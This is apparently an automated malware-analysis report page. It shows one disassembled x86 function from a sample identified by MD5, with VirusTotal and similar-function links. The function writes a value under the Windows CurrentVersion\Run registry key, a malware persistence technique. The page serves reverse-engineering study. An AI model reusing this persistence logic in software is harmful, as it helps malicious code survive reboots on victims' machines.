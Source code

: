 ```yaml
---
layout: post
title:  "fcn.0051e5e8 @ d65363c7c6c188277432c9e4251c44e5"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.0051e5e8
- **Origin (md5):** d65363c7c6c188277432c9e4251c44e5
- **VirusTotal:** [virustotal.com/gui/file/d65363c7c6c188277432c9e4251c44e5][virustotal_ref]

# Code Tags
<span class="tag" id="SOCKET">SOCKET</span>
<span class="tag" id="REGISTRY">REGISTRY</span>


# Similar Functions

1. [fcn.005565d0][similar_1_ref] (sim.: 0.9053905153194544)
2. [fcn.005575d0][similar_2_ref] (sim.: 0.904849716119171)
3. [fcn.005229cc][similar_3_ref] (sim.: 0.9027896836336259)
4. [fcn.00587920][similar_4_ref] (sim.: 0.9026623006056052)
5. [fcn.0051eaed][similar_5_ref] (sim.: 0.9017450441455678)


# Disassembled Code

{% highlight nasm %}
jmp 0x5561e0
push ebp
mov ebp,esp
sub esp,0x69c
push ebx
push esi
push edi
lea edi,[ebp-0x69c]
mov ecx,0x1a7
mov eax,0xcccccccc
rep stosd dword es:[edi],eax
mov eax,dword[0x7e2f74]
xor eax,ebp
mov dword[ebp-4],eax
mov ecx,0x7ec046
call fcn.0052068b
mov dword[ebp-0xc],0
mov dword[ebp-0x18],0
mov dword[ebp-0x24],1
mov dword[ebp-0x3c],0x208
push 0x410
push 0
lea eax,[ebp-0x454]
push eax
call fcn.0051cc48
add esp,0xc
push 0x772cc0
push 0x208
lea eax,[ebp-0x454]
push eax
call fcn.00523c69
add esp,0xc
mov eax,dword[ebp+0xc]
push eax
push 0x208
lea ecx,[ebp-0x454]
push ecx
call fcn.0051f169
add esp,0xc
push 0x772cc4
push 0x208
lea eax,[ebp-0x454]
push eax
call fcn.0051f169
add esp,0xc
cmp dword[ebp+0x10],0
je 0x5562ac
mov eax,dword[ebp+0x10]
push eax
push 0x208
lea ecx,[ebp-0x454]
push ecx
call fcn.0051f169
add esp,0xc
mov esi,esp
push 0
lea eax,[ebp-0xc]
push eax
push 0
push 0x2001f
push 0
push 0
push 0
push str.SoftwareMicrosoftWindowsCurrentVersionRun
push reloc.WS2_32.dll_accept
call dword[sym.imp.ADVAPI32.dll_RegCreateKeyExW]
cmp esi,esp
call fcn.00520929
mov dword[ebp-0x18],eax
cmp dword[ebp-0x18],0
jne 0x5562ed
mov dword[ebp-0x69c],1
jmp 0x5562f7
mov dword[ebp-0x69c],0
mov eax,dword[ebp-0x69c]
mov dword[ebp-0x24],eax
cmp dword[ebp-0x24],0
je 0x55636a
lea eax,[ebp-0x454]
push eax
call fcn.00522517
add esp,4
lea ecx,[eax+eax+2]
mov dword[ebp-0x30],ecx
mov esi,esp
mov eax,dword[ebp-0x30]
push eax
lea ecx,[ebp-0x454]
push ecx
push 1
push 0
mov edx,dword[ebp+8]
push edx
mov eax,dword[ebp-0xc]
push eax
call dword[sym.imp.ADVAPI32.dll_RegSetValueExW]
cmp esi,esp
call fcn.00520929
mov dword[ebp-0x18],eax
cmp dword[ebp-0x18],0
jne 0x556357
mov dword[ebp-0x69c],1
jmp 0x556361
mov dword[ebp-0x69c],0
mov eax,dword[ebp-0x69c]
mov dword[ebp-0x24],eax
cmp dword[ebp-0xc],0
je 0x55638a
mov esi,esp
mov eax,dword[ebp-0xc]
push eax
call dword[sym.imp.ADVAPI32.dll_RegCloseKey]
cmp esi,esp
call fcn.00520929
mov dword[ebp-0xc],0
mov eax,dword[ebp-0x24]
push edx
mov ecx,ebp
push eax
lea edx,[0x5563bc]
call fcn.00520dbb
pop eax
pop edx
pop edi
pop esi
pop ebx
mov ecx,dword[ebp-4]
xor ecx,ebp
call fcn.0051fccc
add esp,0x69c
cmp ebp,esp
call fcn.00520929
mov esp,ebp
pop ebp
ret 
{% endhighlight %}


[similar_1_ref]: /report/fcn.005565d0@d65363c7c6c188277432c9e4251c44e5
[similar_2_ref]: /report/fcn.005575d0@d65363c7c6c188277432c9e4251c44e5
[similar_3_ref]: /report/fcn.005229cc@d65363c7c6c188277432c9e4251c44e5
[similar_4_ref]: /report/fcn.00587920@d65363c7c6c188277432c9e4251c44e5
[similar_5_ref]: /report/fcn.0051eaed@d65363c7c6c188277432c9e4251c44e5
[virustotal_ref]: https://www.virustotal.com/gui/file/d65363c7c6c188277432c9e4251c44e5